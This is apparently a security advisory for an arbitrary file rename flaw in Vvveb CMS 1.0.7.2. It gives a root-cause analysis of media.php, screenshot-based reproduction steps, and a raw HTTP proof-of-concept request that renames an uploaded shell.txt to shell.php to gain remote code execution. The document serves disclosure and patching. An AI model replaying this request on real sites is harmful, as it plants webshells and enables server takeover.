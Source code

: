 # Vendor

Vvveb

# Product

Vvveb

# version

1.0.7.2

# Download 

https://github.com/givanz/Vvveb

# Vulnerability

Vvveb CMS latest version 1.0.7.2 has a vulnerability caused by arbitrary file upload.

# Description

In Vvveb CMS latest version 1.0.7.2 (Vvveb1.0.7.2/system/traits/media.php) , users can directly rename the file, and there is no restriction on the file suffix. Then upload a file with normal suffix such as txt, and then rename it to a php file to RCE.

# Analysis
Audits find that Vvveb1.0.7.2/system/traits/media.php

Code analysis: 
1. The function receives the `file` and `newfile` parameters passed by the user.
2. 2. The function directly calls PHP's `rename()` function. Here is the root cause of the vulnerability: the code did not perform any validation on the extension of `$newfile` before performing the renaming. It does not have a blacklisting mechanism like the `upload()` function. 
3. This defect allows any existing file to be renamed to any file name, including `shell.php`.
<img width="911" height="457" alt="image" src="https://github.com/user-attachments/assets/36bdfd22-54b0-4b83-9ace-3c93f26d3296" />

We reappear the vulnerability:First, we upload a txt file, the file content is a script that executes the command

<img width="1030" height="591" alt="image" src="https://github.com/user-attachments/assets/57e3caf1-f828-4008-98f4-1e1e8f3658ec" />

Next we rename the uploaded shell.txt to shell.php

<img width="1029" height="430" alt="image" src="https://github.com/user-attachments/assets/379a9604-6269-4408-9219-9820fad2c8ef" />

Now let's access the uploaded php file and you can RCE.

<img width="907" height="288" alt="image" src="https://github.com/user-attachments/assets/f7e58119-b292-4d8d-b8cc-c818e3125ef8" />


# POC
```
POST /admin/index.php?module=media/media&action=rename HTTP/1.1
Host: 192.168.1.88:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 32
Cookie: PHPSESSID=plaof0rngo8iic71ulcutjtkek; admin=1
Connection: close

file=shell.txt&newfile=shell.php
```



